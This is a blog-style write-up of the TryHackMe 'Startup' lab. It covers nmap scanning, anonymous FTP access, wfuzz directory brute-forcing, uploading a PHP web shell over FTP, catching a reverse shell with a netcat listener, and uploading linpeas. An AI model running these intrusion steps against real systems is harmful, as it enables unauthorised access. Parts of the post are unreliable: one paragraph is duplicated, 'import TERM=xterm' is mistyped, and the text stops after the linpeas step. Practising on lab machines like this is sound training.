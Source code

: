 ```yaml
---
layout: post
title: Startup | Tryhackme
date: 2021-11-05
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: startup/logo.png  # Add image post (optional)
tags: [] # add tag
---
```




Let's start....

#### Add to hosts file

> sudo leafpad /etc/hosts

  ```
     ip   startup.thm
  ```
file is a simple text file that associates IP addresses with hostnames, one line per IP address.

Scan the ip in Nmap

    sudo nmap -sC -sV startup.thm
     
    -sC is for running default scripts
    -sV is for enumerating version

<p align="left">
<img src="/assets/img/startup/nmap.png" width="450"/>
</p>

From the output, we can see we have 3 ports open. FTP is running on port SSH runs on port 22, while HTTP runs on port 80. Now we know what ports are open and what services they are running.FTP login with username is anonymous and password is anonymous.

### Enumerating FTP service

> ftp startup.thm

<p align="left">
<img src="/assets/img/startup/ftp-dir.png" width="350"/>
</p>

In analyze of FTP service,  dir -a is used to list all files and folders, even the hidden ones. As we can see few files and we can read them looking at the permission on the left side, lets download them to our box.

> get important.jpg
>
> get notice.txt


<p align="left">
<img src="/assets/img/startup/ftp_file_download.png" width="350"/>
</p>

Here ftp directory check the directory for further steps.

<p align="left">
<img src="/assets/img/startup/ftp-dir-1.png" width="350"/>
</p>

There is nothing is see that.

So we have to look to web service.

Here, I decided to brute-force the directory using the wfuzz tool. I guess that's better than the gobuster tool.

<p align="left">
<img src="/assets/img/startup/home.png" width="350"/>
</p>

Check the robots.txt file on the website, but it's not there.

Here, I decided to brute-force the directory using the wfuzz tool. I guess that's better than the gobuster tool.

> wfuzz -w /usr/share/SecLists/discovery/Webcontents/raft-large-directories.txt -u http://startup.thm/FUZZ

<p align="left">
<img src="/assets/img/startup/wfuzz.png" width="350"/>
</p>


phpshell.php

> put phpshell.php

 Check the ip addr
 
> nc -lvnp 33456

> ls -la
> stty raw -echo 
> import TERM=xterm

upload linpease.sh file  
























